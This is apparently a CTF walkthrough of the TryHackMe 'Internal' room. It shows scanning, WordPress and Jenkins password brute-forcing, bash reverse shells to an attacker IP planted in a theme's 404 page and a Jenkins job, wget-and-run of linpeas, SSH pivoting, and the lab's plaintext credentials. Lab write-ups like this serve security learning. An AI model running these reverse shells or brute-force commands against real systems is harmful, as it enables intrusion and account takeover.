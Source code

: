 # Internal

**Room Link:** [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- 10.10.46.54
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

```
gobuster dir -u http://10.10.46.54 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Wordpress is running under both /blog and /wordpress. /blog has a login page

```
wpscan --url http://10.10.46.54
wpscan --url http://10.10.46.54/blog --passwords /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (30) (2).png" alt=""><figcaption></figcaption></figure>

#### Credentials found

<pre><code><strong>Username: admin 
</strong><strong>Password: my2boys
</strong></code></pre>

Trying to login the page redirects to internal.htm so I add that to the host file.

```
vi /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We are able to successfully get into wordpress with the credentials

<figure><img src="../../.gitbook/assets/image (8) (1) (3).png" alt=""><figcaption></figcaption></figure>

Reverse Shell Failed Attempt

revshell.php code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'");
?>
```

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Unable to upload the plugin due to write issues

<figure><img src="../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

TWENTY SEVENTEEN theme had a writable pages so I modified the 404 page with a reverse shell and then navigated to a page that does not exist.

<figure><img src="../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

Just added the revshell.php code mentioned earlier.

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```

**Browser**

A page that doesn't exist to trigger the reverse shell.

```
http://www.internal.thm/blog/index.php/2020/08/03/hello-worlgd/
```

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

Get full TTY shell

<pre><code><strong>python -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

### LinPeas

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://10.10.120.18:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

Linpeas was able to find two sets of credentials. phpmyadmin credentials worked.

```
phpmyadmin
Username: phpmyadmin                                                                                                                
Password: B2Ud4fEOZmVq

note 
Username: aubreanna
Password: bubb13guM!@#123
```

The note for Bill

```
cat /opt/wp-save.txt 
```

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Able to ssh in with the credentials. There is a file that says that Jenkins is running and we can confirm that is is running with netstat as well.

```
ssh aubreanna@10.10.46.54
Password: bubb13guM!@#123
cat jenkins.txt
netstat -tuan
```

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Pivot

From Kali I am now able to reach the Jenkins server

**Option #1**

For the rest of guide I used this option.

```
apt install sshuttle
sshuttle -r aubreanna@10.10.46.54 127.0.0.1/24
Password: bubb13guM!@#123
```

<figure><img src="../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

**Option #2**

If I followed this way jenkins would be redirected to port 4444 on kali.

```
ssh -L 4444:172.17.0.2:8080 aubreanna@10.10.46.54
Password: bubb13guM!@#123
```

### Bruteforce

After checking for some time I couldn't find any files with credentials that worked and the jenkins server is being ran on docker and I had no access to anything for that  so I resorted to using hydra. What I did was tried logging in with fake credentials than seeing the request and copying the info I needed to start bruteforcing.

```
File: /j_acegi_security_check
Request Body: j_username=test&j_password=pass&from=%2F&Submit=Sign+in
Failed login message: Invalid username or password
```

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

The default hydra was giving false positives and not getting the correct credentials so I downloaded from gitlab and ran the bruteforcing again.

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra 127.0.0.1 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P  /usr/share/wordlists/rockyou.txt
```

Credentials were found.

<figure><img src="../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
Username: admin
Password: spongebob
```

### Jenkins Web

<figure><img src="../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

Just added a reverse shell to the job and ran it.

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.120.18/443 0>&1'
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Setup a listener

```
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (12) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

There was a note under opt for Aubreanna that had the credentials for root.

<figure><img src="../../.gitbook/assets/image (15) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
Username: root
Password: tr0ub13guM!@#123
```

Tried logging in with the credentials with ssh and it worked.

<pre><code>ssh root@10.10.56.152
<strong>Password: tr0ub13guM!@#123
</strong></code></pre>

